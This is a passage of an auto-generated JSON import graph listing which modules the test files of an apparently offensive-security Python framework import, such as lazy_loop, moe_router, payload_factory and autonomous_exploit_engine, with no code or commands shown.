"imports", "source": "tests/test_loop_intent_delete.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_intent_delete.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_intent_delete.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_intent_delete.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_llm_resilience.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_llm_resilience.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_llm_resilience.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_llm_resilience.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_llm_resilience.py", "target": "modules.llm_factory"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_llm_resilience.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_llm_resilience.py", "target": "modules.llm_factory"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_llm_resilience.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_llm_resilience.py", "target": "modules.llm_factory"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_llm_resilience.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_llm_resilience.py", "target": "modules.llm_factory"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_llm_resilience.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_llm_resilience.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_llm_resilience.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_llm_resilience.py", "target": "modules.llm_factory"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_llm_resilience.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_llm_resilience.py", "target": "modules.llm_factory"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_llm_resilience.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_llm_resilience.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_llm_resilience.py", "target": "modules.llm_factory"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_mentions.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_mentions.py", "target": "modules"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_mentions.py", "target": "modules"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_progress.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_progress.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_progress.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_progress.py", "target": "modules.loop_progress"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_progress.py", "target": "io"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_progress.py", "target": "rich.console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_progress.py", "target": "io"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_progress.py", "target": "rich.console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_progress.py", "target": "modules.loop_progress"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_progress.py", "target": "modules.loop_progress"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_scope_traffic_evidence.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_scope_traffic_evidence.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_scope_traffic_evidence.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_scope_traffic_evidence.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_scope_traffic_evidence.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_scope_traffic_evidence.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_spawn_side.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_spawn_side.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_spawn_side.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_spawn_side.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_spawn_side.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_spawn_side.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_store_race.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_store_race.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_store_race.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_supervision.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_supervision.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_supervision.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_supervision.py", "target": "modules.lazy_intel"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_supervision.py", "target": "modules.lazy_orchestrator_feedback"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_supervision.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_supervision.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_supervision.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_supervision.py", "target": "modules.lazy_intel"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_supervision.py", "target": "modules.lazy_orchestrator_feedback"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_supervision.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_supervision.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_worker_traces.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_worker_traces.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_worker_traces.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_worker_traces.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_worker_traces.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_worker_traces.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_worker_traces.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_worker_traces.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_worker_traces.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_loop_worker_traces.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_mcp_dispatch.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_mcp_dispatch.py", "target": "ast"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_mcp_dispatch.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_mcp_dispatch.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_mcp_improvements.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_mcp_improvements.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_mcp_improvements.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_mcp_improvements.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_mcp_improvements.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_mcp_improvements.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_mcp_improvements.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_mcp_improvements.py", "target": "lazyown_mcp_helpers"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_mcp_improvements.py", "target": "importlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_mcp_improvements.py", "target": "lazyown_mcp"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_mcp_lazy.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_mcp_lazy.py", "target": "ast"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_mcp_lazy.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_mcp_lazy.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_mcp_lazy.py", "target": "mcp_lazy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_mcp_recommender_embed.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_mcp_recommender_embed.py", "target": "importlib.util"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_mcp_recommender_embed.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_metrics.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_metrics.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_metrics.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_metrics.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_metrics.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_metrics.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_metrics.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_metrics.py", "target": "modules.metrics"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_metrics_aware_selector.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_metrics_aware_selector.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_metrics_aware_selector.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_metrics_aware_selector.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_metrics_aware_selector.py", "target": "skills.autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_metrics_aware_selector.py", "target": "skills"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_metrics_aware_selector.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_metrics_aware_selector.py", "target": "skills.autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_migrate_lazyown_generator.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_migrate_lazyown_generator.py", "target": "ast"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_migrate_lazyown_generator.py", "target": "scripts.migrate_lazyown"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_module_registry.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_module_registry.py", "target": "modules.module_registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_moe_rl_swan.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_moe_rl_swan.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_moe_rl_swan.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_moe_rl_swan.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_moe_rl_swan.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_moe_rl_swan.py", "target": "detection_oracle"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_moe_rl_swan.py", "target": "detection_oracle"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_moe_rl_swan.py", "target": "detection_oracle"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_moe_rl_swan.py", "target": "detection_oracle"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_moe_rl_swan.py", "target": "detection_oracle"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_moe_rl_swan.py", "target": "detection_oracle"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_moe_rl_swan.py", "target": "detection_oracle"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_moe_rl_swan.py", "target": "detection_oracle"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_moe_rl_swan.py", "target": "detection_oracle"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_moe_rl_swan.py", "target": "moe_router"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_moe_rl_swan.py", "target": "moe_router"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_moe_rl_swan.py", "target": "moe_router"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_moe_rl_swan.py", "target": "moe_router"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_moe_rl_swan.py", "target": "moe_router"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_moe_rl_swan.py", "target": "moe_router"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_moe_rl_swan.py", "target": "moe_router"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_moe_rl_swan.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_moe_rl_swan.py", "target": "moe_router"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_moe_rl_swan.py", "target": "rl_trainer"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_moe_rl_swan.py", "target": "rl_trainer"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_moe_rl_swan.py", "target": "rl_trainer"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_moe_rl_swan.py", "target": "rl_trainer"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_moe_rl_swan.py", "target": "rl_trainer"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_moe_rl_swan.py", "target": "rl_trainer"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_moe_rl_swan.py", "target": "rl_trainer"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_moe_rl_swan.py", "target": "swan_agent"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_moe_rl_swan.py", "target": "swan_agent"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_moe_rl_swan.py", "target": "swan_agent"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_moe_rl_swan.py", "target": "swan_agent"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_moe_rl_swan.py", "target": "swan_agent"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_moe_rl_swan.py", "target": "swan_agent"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_moe_rl_swan.py", "target": "swan_agent"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_moe_rl_swan.py", "target": "swan_agent"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_moe_rl_swan.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_moe_rl_swan.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_moe_rl_swan.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_moe_rl_swan.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_moe_rl_swan.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_moe_rl_swan.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_moe_rl_swan.py", "target": "autonomous_daemon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_moe_rl_swan.py", "target": "lazyown_policy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_moe_rl_swan.py", "target": "lazyown_policy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_moe_rl_swan.py", "target": "lazyown_policy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_moe_rl_swan.py", "target": "world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_moe_rl_swan.py", "target": "world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_moe_rl_swan.py", "target": "world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_moe_rl_swan.py", "target": "world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_moe_router_check_regression.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_moe_router_check_regression.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_moe_router_check_regression.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_moe_router_check_regression.py", "target": "modules.moe_router"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_moe_router_check_regression.py", "target": "modules.moe_router"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_moe_router_check_regression.py", "target": "modules.moe_router"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_moe_router_check_regression.py", "target": "modules.moe_router"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_moe_router_check_regression.py", "target": "modules.moe_router"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_moe_router_check_regression.py", "target": "modules.moe_router"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_mutation_verification.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_mutation_verification.py", "target": "ast"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_mutation_verification.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_mutation_verification.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_mutation_verification.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_mutation_verification.py", "target": "modules.db"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_nethelpers_command_set.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_nethelpers_command_set.py", "target": "ast"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_nethelpers_command_set.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_nethelpers_command_set.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_nethelpers_command_set.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_nethelpers_command_set.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_nethelpers_command_set.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_nethelpers_command_set.py", "target": "cli.commands._dormancy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_nethelpers_command_set.py", "target": "cli.commands.nethelpers"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_nethelpers_command_set.py", "target": "cli.commands.nethelpers"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_nethelpers_command_set.py", "target": "cli.commands.nethelpers"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_nethelpers_command_set.py", "target": "cli.registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_nethelpers_command_set.py", "target": "cli.commands.misc_migrated"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_nethelpers_command_set.py", "target": "cli.commands.nethelpers"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_no_shell_execution.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_no_shell_execution.py", "target": "ast"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_no_shell_execution.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_no_shell_execution.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_nuclei_parser.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_nuclei_parser.py", "target": "modules.integrations.nuclei_parser"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_ops_loot_phase.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_ops_loot_phase.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_ops_loot_phase.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_ops_loot_phase.py", "target": "cli.ops_commands"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_ops_loot_phase.py", "target": "modules.world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_ops_loot_phase.py", "target": "world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_opsec_scorer.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_opsec_scorer.py", "target": "modules.opsec_scorer"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_opsec_scorer_consolidated.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_opsec_scorer_consolidated.py", "target": "modules.opsec_scorer"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_packaging.py", "target": "ast"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_packaging.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_packaging.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_packaging.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_packaging.py", "target": "yaml"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_packaging.py", "target": "tomllib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_packaging.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_packaging.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_packaging.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_palette_overlay.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_palette_overlay.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_palette_overlay.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_palette_overlay.py", "target": "cli.palette_overlay"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_payload_factory.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_payload_factory.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_payload_factory.py", "target": "modules.payload_factory"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_payload_factory.py", "target": "base64"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_payload_schema.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_payload_schema.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_payload_schema.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_payload_schema.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_payload_schema.py", "target": "core.payload_schema"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_payload_schema.py", "target": "cli.assign"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_payload_schema.py", "target": "cli.assign"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_payload_schema.py", "target": "cli.assign"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_payload_schema.py", "target": "cli.assign"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_payload_schema.py", "target": "cli.assign"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_payload_schema.py", "target": "modules.llm_factory"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_payload_schema.py", "target": "modules.llm_factory"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_phase1_data_gaps.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_phase1_data_gaps.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_phase1_data_gaps.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_phase1_data_gaps.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_phase1_data_gaps.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_phase1_data_gaps.py", "target": "modules.obs_parser"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_phase1_data_gaps.py", "target": "modules.world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_phase1_data_gaps.py", "target": "cli.recommendation_signals"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_phase1_data_gaps.py", "target": "cli.recommendation_signals"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_phase1_data_gaps.py", "target": "cli.recommendation_signals"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_phase1_data_gaps.py", "target": "cli.recommendation_signals"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_phase1_data_gaps.py", "target": "cli.recommendation_signals"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_phase1_data_gaps.py", "target": "modules.autonomous_exploit_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_phase1_data_gaps.py", "target": "modules.autonomous_exploit_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_phase1_data_gaps.py", "target": "modules.autonomous_exploit_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_phase1_data_gaps.py", "target": "modules.autonomous_exploit_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_phase_labels.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_phase_labels.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_phase_labels.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_phase_labels.py", "target": "cli.phase_labels"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_phase_labels.py", "target": "cli.contextual_help"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_phase_labels.py", "target": "cli.tips_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_pipeline_engine.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_pipeline_engine.py", "target": "ast"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_pipeline_engine.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_pipeline_engine.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_pipeline_engine.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_pipeline_engine.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_pipeline_engine.py", "target": "yaml"}, {"confidence": "EXTRACTED", "relation": "imports", "source": 